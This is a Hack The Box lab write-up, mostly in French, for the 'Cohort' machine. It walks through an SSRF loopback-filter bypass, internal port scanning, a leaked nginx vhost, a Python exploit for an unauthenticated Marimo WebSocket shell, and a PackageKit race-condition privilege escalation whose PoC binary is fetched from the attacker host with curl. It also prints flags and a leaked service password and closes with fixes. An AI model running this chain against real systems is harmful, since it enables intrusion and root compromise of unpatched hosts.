

# Hack The Box — Cohort


> **Active machine / private write-up.**  
> This document is kept in the private repository while the machine is active. It may contain target-specific details, commands, credentials, flags or full exploitation chains.

## Machine Information

| Item | Value |
|---|---|
| Machine | Cohort |
| Platform | Hack The Box |
| OS | Linux |
| Difficulty | Easy |
| Initial Foothold | SSRF on `/api/validate`, internal Marimo discovery, then WebSocket RCE |
| Privilege Escalation | PackageKit TOCTOU local privilege escalation |
| CVEs Used | CVE-2026-39987, CVE-2026-41651 |
| Main Techniques | SSRF validation bypass, localhost/vhost discovery, WebSocket abuse, Marimo pre-auth RCE, PackageKit race condition |

## CVEs and Vulnerabilities Used

### CVE-2026-39987 — Marimo Pre-Auth Terminal WebSocket RCE

- **Machine:** Hack The Box — Cohort
- **Stage:** Initial access / foothold
- **Target:** Marimo `0.20.4`
- **Impact:** unauthenticated command execution through the terminal WebSocket endpoint `/terminal/ws`.
- **Usage in Cohort:** the SSRF first revealed the internal Marimo service and the nginx vhost that exposed its WebSocket path. Once reachable through the vhost, the unauthenticated WebSocket gave a shell as `marimo`.
- **Reference:** NVD — <https://nvd.nist.gov/vuln/detail/CVE-2026-39987>
- **Advisory:** GHSA-2679-6mx9-h9xc — <https://github.com/marimo-team/marimo/security/advisories/GHSA-2679-6mx9-h9xc>

### CVE-2026-41651 — PackageKit TOCTOU / Pack2TheRoot

- **Machine:** Hack The Box — Cohort
- **Stage:** Privilege escalation
- **Target:** PackageKit `1.2.8`
- **Impact:** local privilege escalation to root through a time-of-check/time-of-use race condition in PackageKit transaction handling.
- **Usage in Cohort:** after obtaining the `marimo` shell, the vulnerable PackageKit version was exploited locally to gain an effective root context and read `root.txt`.
- **Reference:** NVD — <https://nvd.nist.gov/vuln/detail/CVE-2026-41651>

## Write-up complet de A à Z

> Laboratoire Hack The Box autorisé. N’utilisez ces techniques que sur des systèmes pour lesquels vous avez une autorisation explicite.

| Élément | Valeur |
|---|---|
| Machine | Cohort — Easy — Linux |
| IP cible | `10.129.1.128` |
| IP Kali | `10.10.14.106` |
| Accès initial | SSRF → Marimo WebSocket |
| Élévation | PackageKit TOCTOU |
| CVE initiale | CVE-2026-39987 |
| CVE root | CVE-2026-41651 |

## 1. Chaîne globale



La SSRF sert d’abord à explorer la boucle locale. Elle révèle Marimo et le vhost qui expose son WebSocket. Une fois connecté comme `marimo`, une race condition PackageKit permet de devenir root.

## 2. Préparation et scan

```bash
echo '10.129.1.128 cohort.htb' | sudo tee -a /etc/hosts

sudo nmap -Pn -p- --min-rate 10000 10.129.1.128 -oN nmap-all.txt
sudo nmap -Pn -sC -sV -p22,80,443 10.129.1.128 -oN nmap-services.txt
```

| Port | Service | Observation |
|---:|---|---|
| 22 | SSH | OpenSSH 9.6p1 Ubuntu |
| 80 | HTTP | nginx 1.24.0, redirection HTTPS |
| 443 | HTTPS | nginx 1.24.0, `cohort.htb` |

Le site Cohort Analytics possède une page **Client Insights** demandant une URL de rapport. Le serveur annonce qu’il va récupérer cette URL et afficher un aperçu : c’est un motif classique de SSRF.

## 3. Requête vulnérable

L’onglet Network du navigateur révèle :

```http
POST /api/validate HTTP/1.1
Host: cohort.htb
Content-Type: application/json

{"url":"http://example.com/test.csv","format":"csv"}
```

Le paramètre `url` est contrôlé. Le JavaScript était obscurci, `/assets/` renvoyait 403 et `GET /api/` répondait `Method not allowed`. Observer la requête XHR était donc plus utile que lire tout le bundle.

## 4. Confirmation de la SSRF

Sur Kali :

```bash
mkdir -p ~/hackthebox/season/cohort/web
cd ~/hackthebox/season/cohort/web

cat > test.csv <<'EOF'
name,amount
alice,100
bob,200
EOF

python3 -m http.server 8000 --bind 0.0.0.0
```

Dans le formulaire, on fournit :

```text
http://10.10.14.106:8000/test.csv
```

Le serveur Python reçoit :

```text
10.129.1.128 - - "GET /test.csv HTTP/1.1" 200 -
```

La requête vient bien de la cible, pas du navigateur : la SSRF est prouvée.

```bash
curl -skS -X POST https://cohort.htb/api/validate \
  -H 'Content-Type: application/json' \
  --data '{"url":"http://10.10.14.106:8000/test.csv","format":"csv"}' |
  jq .
```

Le backend renvoie le statut, le type MIME et jusqu’à 4096 octets d’aperçu. `format:"csv"` n’est pas une vraie restriction : HTML et JSON sont également retournés.

## 5. Bypass anti-loopback avec `127.1`

`127.0.0.1`, `localhost` et `::1` sont bloqués :

```json
{"ok":false,"message":"Internal or loopback addresses are not permitted."}
```

Mais `127.1` est accepté, puis normalisé par la pile réseau en `127.0.0.1`.

```bash
curl -skS -X POST https://cohort.htb/api/validate \
  -H 'Content-Type: application/json' \
  --data '{"url":"http://127.1/","format":"csv"}' |
  jq .
```

| Étape | Valeur |
|---|---|
| Filtre textuel | `127.1`, absent de la liste noire |
| Bibliothèque réseau | `127.0.0.1` |
| Destination | boucle locale de la cible |

Après le shell initial, `/opt/cohort-insights/insights_api.py` a confirmé le défaut :

```python
ALLOWED_SCHEMES = ("http", "https")
BLOCKED_HOSTS = {"localhost", "127.0.0.1", "::1", "0:0:0:0:0:0:0:1"}

def _host_allowed(url):
    parts = urlsplit(url)
    host = (parts.hostname or "").lower()
    if host in BLOCKED_HOSTS or host.endswith(".localhost"):
        return False, "Internal or loopback addresses are not permitted."
    return True, ""
```

Le code compare seulement une chaîne. Il devrait résoudre l’adresse puis refuser tout `127.0.0.0/8`, ainsi que les autres plages internes, après chaque redirection.

## 6. Scan des ports internes

```bash
for port in 80 443 3000 5000 8000 8080 8888 9000; do
  echo "===== $port ====="
  payload=$(jq -nc --arg url "http://127.1:$port/" \
    '{url:$url,format:"csv"}')

  curl -skS --max-time 15 \
    -X POST https://cohort.htb/api/validate \
    -H 'Content-Type: application/json' \
    --data "$payload" |
    jq .
done
```

- `Connection refused` : port probablement fermé.
- Statut HTTP et aperçu : service ouvert.
- Timeout : service lent, filtré ou non HTTP.

| Adresse interne | Service |
|---|---|
| `127.0.0.1:80` | nginx / Cohort |
| `127.0.0.1:5000` | API Cohort Insights |
| `127.0.0.1:8888` | Marimo |

## 7. Identification de Marimo

`http://127.1:8888/` renvoie notamment :

```html
<title>marimo</title>
<form method="POST" action="/auth/login">
```

avec le champ `Access Token / Password`.

```bash
for endpoint in \
  /health /manifest.json /robots.txt /auth/login \
  /api/health /api/status /api/version /api/files /terminal/ws; do
  echo "===== $endpoint ====="
  payload=$(jq -nc --arg url "http://127.1:8888$endpoint" \
    '{url:$url,format:"csv"}')

  curl -skS --max-time 15 \
    -X POST https://cohort.htb/api/validate \
    -H 'Content-Type: application/json' \
    --data "$payload" |
    jq .
done
```

| Endpoint | Réponse |
|---|---|
| `/health` | `{"status":"healthy"}` |
| `/manifest.json` | `A Marimo App` |
| `/auth/login` | page de connexion |
| `/api/status` | `401 Authorization header required` |
| `/api/version` | `0.20.4` |
| `/terminal/ws` en GET | `404 Not Found` |

La version a été directement donnée par `http://127.1:8888/api/version`.

## 8. CVE-2026-39987 : WebSocket Marimo sans authentification

Marimo `0.20.4` est affecté par **CVE-2026-39987** / **GHSA-2679-6mx9-h9xc**. La correction a été publiée dans Marimo `0.23.0`.

Avis officiel : <https://github.com/marimo-team/marimo/security/advisories/GHSA-2679-6mx9-h9xc>

Dans les versions vulnérables, `/terminal/ws` accepte une connexion et crée un pseudo-terminal sans vérifier correctement le token.

Le `404` obtenu par SSRF est normal : le validateur envoie un GET HTTP, tandis qu’un WebSocket attend une poignée de main avec `Connection: Upgrade`, `Upgrade: websocket` et les en-têtes `Sec-WebSocket-*`.

Le schéma `ws://` est refusé par le validateur, qui autorise seulement HTTP et HTTPS. Il faut donc trouver un pont WebSocket vers Marimo.

## 9. Fuite du vhost via la route locale `/status`

La route décisive est :

```text
http://127.1/status
```

Ce n’est pas `127.1:8888/status`. La SSRF interroge nginx sur le port 80 depuis localhost.

```bash
payload=$(jq -nc --arg url 'http://127.1/status' \
  '{url:$url,format:"csv"}')

curl -skS -X POST https://cohort.htb/api/validate \
  -H 'Content-Type: application/json' \
  --data "$payload" |
  jq .
```

La réponse révèle :

```json
{
  "service": "cohort-edge",
  "status": "ok",
  "generated_by": "nginx",
  "upstreams": [
    {"name":"marketing","host":"cohort.htb","root":"/var/www/cohort"},
    {"name":"insights-api","host":"cohort.htb","path":"/api/","target":"127.0.0.1:5000"},
    {
      "name":"notebooks",
      "host":"nb-1be3782a8afd3ad5.cohort.htb",
      "target":"127.0.0.1:8888",
      "note":"internal analyst workspace, not for external use"
    }
  ]
}
```

Il s’agit d’un **vhost**, pas d’un sous-répertoire :

```text
nb-1be3782a8afd3ad5.cohort.htb → nginx → 127.0.0.1:8888
```

nginx sélectionne le backend grâce au Host/SNI. `cohort.htb` sert le site principal, tandis que le vhost `nb-...` relaie Marimo et son WebSocket.

Test sans modifier `/etc/hosts` :

```bash
curl -ski \
  --resolve nb-1be3782a8afd3ad5.cohort.htb:443:10.129.1.128 \
  https://nb-1be3782a8afd3ad5.cohort.htb/api/version
```

Résultat : HTTP 200, puis `0.20.4`. On l’ajoute alors localement :

```bash
echo '10.129.1.128 nb-1be3782a8afd3ad5.cohort.htb' \
  | sudo tee -a /etc/hosts

curl -sk https://nb-1be3782a8afd3ad5.cohort.htb/api/version
```

## 10. Exploitation du WebSocket Marimo

```bash
python3 -m venv marimo-env
source marimo-env/bin/activate
pip install websocket-client

export NO_PROXY='localhost,127.0.0.1,cohort.htb,nb-1be3782a8afd3ad5.cohort.htb'
export no_proxy="$NO_PROXY"
```

Créer `exploit_marimo.py` :

```python
#!/usr/bin/env python3
import ssl
import time
import websocket

url = "wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws"
print(f"[+] Connexion à {url}")

ws = websocket.create_connection(
    url,
    timeout=10,
    sslopt={"cert_reqs": ssl.CERT_NONE},
)

print("[+] WebSocket accepté : la CVE fonctionne")
time.sleep(2)

ws.settimeout(0.5)
try:
    while True:
        data = ws.recv()
        if isinstance(data, bytes):
            data = data.decode(errors="replace")
        print(data, end="")
except Exception:
    pass

command = "id; whoami; hostname; pwd\n"
ws.settimeout(5)
ws.send(command)
time.sleep(2)

try:
    while True:
        data = ws.recv()
        if isinstance(data, bytes):
            data = data.decode(errors="replace")
        print(data, end="")
except Exception:
    pass

ws.close()
```

```bash
python3 exploit_marimo.py
```

Résultat :

```text
[+] WebSocket accepté : la CVE fonctionne
marimo@cohort:~$
uid=1000(marimo) gid=1000(marimo) groups=1000(marimo)
marimo
cohort
/home/marimo
```

Le serveur accepte le WebSocket sans token : la CVE est confirmée.

Les chaînes `^[[200~` et `^[[201~` parfois visibles lors d’un collage proviennent du mode *bracketed paste*. On peut le désactiver avec :

```bash
bind 'set enable-bracketed-paste off'
```

## 11. Premier flag

```bash
cd /home/marimo
ls -la
cat user.txt
```

Flag de cette instance :

```text
271b12cec962262c12cbcad08fc4b894
```

La valeur peut varier selon l’instance HTB.

## 12. Énumération locale

```bash
id
uname -a
cat /etc/os-release
ps auxww
ss -lntup
sudo -l
cat /etc/crontab
find / -perm -4000 -type f 2>/dev/null
getcap / -r 2>/dev/null
find /opt -xdev -writable -printf '%M %u %g %p\n' 2>/dev/null
```

On retrouve Ubuntu 24.04, le noyau `6.8.0-136-generic`, l’API Insights sur `127.0.0.1:5000` et Marimo sur `127.0.0.1:8888`.

La ligne de commande du service révèle aussi :

```text
--token-password YKQ6iPyO5kusNx0BpVAPfjP5
```

Ce secret n’était pas nécessaire, puisque CVE-2026-39987 avait déjà contourné l’authentification WebSocket.

### Fausses pistes locales

- Aucun sudo sans mot de passe.
- Pas de cron personnalisé exploitable.
- Les SUID sont standards.
- `/opt/marimo/venv` est modifiable, mais le service tourne comme `marimo`, pas root.
- Sysmon tourne comme root, mais `/opt/sysmon`, son exécutable et sa configuration ne sont pas modifiables.
- `snap-confine` possède plusieurs capabilities, dont `cap_setuid`, mais elles appartiennent à cet exécutable et ne donnent pas librement `setuid(0)` à Bash ou Python.
- Le code d’Insights confirme la SSRF, mais ne contient ni secret root ni RCE supplémentaire.

## 13. PackageKit 1.2.8

```bash
pkcon --version
```

Résultat :

```text
1.2.8
```

PackageKit peut être activé à la demande par D-Bus ; son absence momentanée de `ps` ne signifie pas qu’il est inutilisable.

Cette version est affectée par **CVE-2026-41651**, surnommée **Pack2TheRoot** :

- versions affectées : 1.0.2 à 1.3.4 ;
- version corrigée : 1.3.5.

Références :

- <https://nvd.nist.gov/vuln/detail/CVE-2026-41651>
- <https://github.com/Vozec/CVE-2026-41651>

## 14. Comprendre CVE-2026-41651

PackageKit fournit une interface D-Bus d’installation de paquets. Son backend APT/dpkg travaille comme root, mais Polkit doit autoriser l’opération.

La faille est un **TOCTOU** (*Time Of Check to Time Of Use*). Le PoC lance rapidement deux opérations dans la même transaction :

1. une installation simulée d’un paquet inoffensif ;
2. une installation réelle d’un paquet malveillant.

Dans la version vulnérable, les flags et chemins mémorisés peuvent être écrasés au mauvais moment. L’autorisation porte sur un état, tandis que l’exécution utilise les nouvelles valeurs.

| Temps | Action |
|---:|---|
| T1 | Création de la transaction |
| T2 | `InstallFiles(SIMULATE, dummy)` |
| T3 | Transaction mise en file |
| T4 | `InstallFiles(NONE, payload)` écrase les paramètres |
| T5 | Polkit refuse finalement l’opération |
| T6 | Le backend a déjà traité le payload comme root |

Le payload crée `/tmp/.suid_bash`, appartenant à root avec le mode `4755`. Le bit SUID fait exécuter le fichier avec l’UID effectif du propriétaire ; Bash `-p` conserve ces privilèges.

## 15. Compilation et exploitation

Sur Kali :

```bash
cd ~/hackthebox/season/cohort
git clone https://github.com/Vozec/CVE-2026-41651.git
cd CVE-2026-41651

sudo apt update
sudo apt install -y libglib2.0-dev make gcc
make

file cve-2026-41651
python3 -m http.server 8000
```

Toujours lire le code d’un PoC avant de l’exécuter.

Depuis le shell `marimo` :

```bash
cd /tmp
curl -f http://10.10.14.106:8000/cve-2026-41651 -o cve-2026-41651
chmod +x cve-2026-41651
./cve-2026-41651
```

Sortie observée :

```text
CVE-2026-41651 — PackageKit TOCTOU LPE
[*] Building packages (pure C)...
[+] dummy   : /tmp/.pk-dummy-1943.deb
[+] payload : /tmp/.pk-payload-1943.deb
[*] Transaction : /2_eedeeebc
[*] Step 1 : InstallFiles(SIMULATE=0x4, dummy) [async]
[*] Step 2 : InstallFiles(NONE=0x0, payload) [async]
[!] PK error 48: Failed to obtain authentication.
[*] Polling for payload...
[+] SUCCESS — SUID bash at t+2100ms
uid=1000(marimo) gid=1000(marimo) euid=0(root) groups=1000(marimo)
.suid_bash-5.2#
```

Le message `Failed to obtain authentication` est attendu : Polkit refuse, mais trop tard. Le backend a déjà traité le paquet. La preuve est `euid=0(root)`. Le vrai UID reste 1000, mais les contrôles de privilèges utilisent l’UID effectif.

Les avertissements `cannot set terminal process group` et `no job control` viennent du pseudo-terminal WebSocket ; ils ne retirent pas les privilèges.

## 16. Flag root

```bash
id
cd /root
ls -la
cat root.txt
```

Flag de cette instance :

```text
817ddc933bf817762bc4255def3cbcee
```

La valeur peut varier selon l’instance HTB.

## 17. Erreurs et leçons utiles

- Un 504 vers Internet ne réfute pas la SSRF : la cible peut ne pas avoir de sortie Internet.
- Le 404 de `/terminal/ws` venait d’un GET normal, pas d’une vraie poignée de main WebSocket.
- `ws://` était refusé ; le vhost nginx a fourni le pont WSS nécessaire.
- `https://cohort.htb/terminal/ws` sélectionnait le vhost marketing et son fallback SPA.
- `?access_token=test` retournait le login parce que le token était faux ; le brute-force était inutile.
- La fuite du vhost venait de `http://127.1/status`, pas de `127.1:8888/status`.
- Voir `cap_setuid` sur `snap-confine` ne donne pas automatiquement cette capability au shell.
- Le venv Marimo était modifiable, mais seulement exécuté comme `marimo`.
- Sysmon tournait comme root, mais aucun fichier consommé n’était modifiable.

## 18. Chaîne finale exacte

1. Nmap révèle 22, 80 et 443.
2. Client Insights accepte une URL.
3. Network révèle `POST /api/validate`.
4. Le serveur HTTP de Kali reçoit un GET de la cible : SSRF.
5. La liste noire bloque `127.0.0.1`, mais pas `127.1`.
6. `127.1` donne accès à la boucle locale.
7. Le port 8888 révèle Marimo.
8. `/api/version` révèle 0.20.4.
9. Cette version est vulnérable à CVE-2026-39987.
10. La SSRF ne peut pas établir le WebSocket.
11. `http://127.1/status` révèle le vhost notebooks.
12. Le vhost est ajouté à `/etc/hosts`.
13. nginx relaie `wss://.../terminal/ws` vers Marimo.
14. CVE-2026-39987 donne le shell `marimo`.
15. `user.txt` fournit le premier flag.
16. PackageKit 1.2.8 est découvert.
17. CVE-2026-41651 gagne la race TOCTOU.
18. Le payload crée une Bash SUID root.
19. Bash `-p` donne `euid=0`.
20. `/root/root.txt` fournit le second flag.

## 19. Correctifs

### SSRF

- Utiliser une allowlist de destinations.
- Résoudre l’hôte puis vérifier toutes ses adresses.
- Bloquer loopback, réseaux privés, link-local et plages réservées.
- Refaire les contrôles après chaque redirection.
- Restreindre schémas, ports et méthodes.
- Filtrer les sorties réseau.
- Ne pas retourner le corps des réponses internes.
- Ne pas utiliser `ssl._create_unverified_context()`.

### nginx et Marimo

- Supprimer ou authentifier `/status`.
- Ne pas divulguer les upstreams et vhosts internes.
- Mettre Marimo à jour au minimum vers 0.23.0 pour cette CVE.
- Authentifier tous les endpoints WebSocket.
- Désactiver le terminal/éditeur s’ils ne sont pas nécessaires.
- Ne pas placer les secrets dans la ligne de commande.

### PackageKit

- Mettre à jour vers 1.3.5 ou un paquet rétroportant le correctif.
- Désactiver PackageKit s’il est inutile sur le serveur.
- Surveiller les transactions D-Bus et installations inattendues.
- Rechercher les binaires SUID inhabituels, surtout dans `/tmp`.

## Conclusion

Cohort combine deux failles modernes avec une mauvaise séparation réseau. Le bypass `127.1` transforme le validateur en outil de reconnaissance interne. La route locale `/status` révèle le pont nginx vers Marimo. CVE-2026-39987 fournit ensuite le shell utilisateur, puis CVE-2026-41651 détourne PackageKit afin de créer une Bash SUID root.

```text
SSRF → 127.1 → Marimo 0.20.4 → vhost notebooks →
WebSocket sans authentification → shell marimo →
PackageKit TOCTOU → Bash SUID → root
```
